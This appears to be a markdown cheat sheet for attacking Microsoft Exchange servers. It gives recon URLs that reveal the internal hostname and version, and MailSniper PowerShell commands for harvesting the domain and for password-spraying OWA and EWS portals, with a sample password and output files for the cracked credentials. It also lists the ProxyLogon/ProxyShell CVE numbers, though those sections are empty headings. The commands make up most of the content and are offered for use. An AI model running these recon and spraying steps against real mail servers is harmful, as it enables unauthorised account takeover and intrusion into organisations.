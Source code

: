 # Exchange CVE
Exchange CVE 

## Recon

* local domain name
  * https://mail.target.ir/autodiscover/autodiscover.json
  * X-CalculatedBETarget: exchange-01.target.local

* exchange version check
  *  https://mail.target.ir/EWS/Exchange.asmx
  *  X-OWA-Version: 15.2.1118.9

* get exchange version
```python
sudo python3 get_exchange_version.py https://mail.target.com
```



## Bruteforce

### use MailSniper enum

```powershell
Import-Module MailSniper.ps1
Invoke-DomainHarvestOWA -ExchHostname mail.domain.com
```

### Password Spray
* PasswordSprayOWA : will attempt to connect to an OWA portal and perform a password spraying attack using a userlist and a single password.
* PasswordSprayEWS :  will attempt to connect to an EWS portal and perform a password spraying attack using a userlist and a single password.

```powershell
Import-Module MailSniper.ps1
Invoke-PasswordSprayOWA -ExchHostname mail.domain.com -UserList .\userlist.txt -Password Spring2021 -Threads 15 -OutFile owa-sprayed-creds.txt
Invoke-PasswordSprayEWS -ExchHostname mail.domain.com -UserList .\userlist.txt -Password Spring2021 -Threads 15 -OutFile sprayed-ews-creds.txt
```




## GAL 

## ProxyLogon


## ProxyShell


## WebShell



#### most famous cve
```
cve-2021-31206
cve-2021-31207
cve-2021-34473
cve-2021-34523
cve-2021-26855
cve-2021-26857
cve-2021-26858
cve-2021-27065
cve-2015-1635
```

